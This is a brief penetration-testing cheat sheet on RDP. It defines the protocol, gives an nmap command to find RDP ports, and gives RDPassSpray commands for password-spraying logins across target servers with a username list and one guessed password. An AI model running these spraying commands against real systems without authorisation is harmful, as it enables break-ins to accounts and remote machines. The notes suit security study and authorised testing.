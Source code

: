 --- ---
<h2>What is RDP</h2>
RDP stands for Remote Desktop Protocol, which is a proprietary protocol developed by Microsoft that allows users to access and control a computer remotely over a network connection. With RDP, users can connect to a remote computer and interact with it as if they were sitting in front of it, using their own keyboard, mouse, and monitor.

---
<h3>Find RDP ports</h3>
- Nmap
```Terminal
nmap -sV -sC IP -p3026,3389
```

- Possible to find RDP on an other port

---
<h3>Attack</h3>
- Brute Force (https://github.com/xFreed0m/RDPassSpray)
```Terminal
python3 RDPassSpray.py -h

python3 RDPassSpray.py -U USERNAMES.txt -p Spring2021! -t IP:PORT

python3 RDPassSpray.py -U USERNAMES.txt -p Spring2021! -d DOMAIN -T RDP_servers.txt
```

- -U                   ---> Username List
- -p                    ---> Single Password
- -d                    ---> Windows Domain
- -t                     ---> Targets (List of IP's)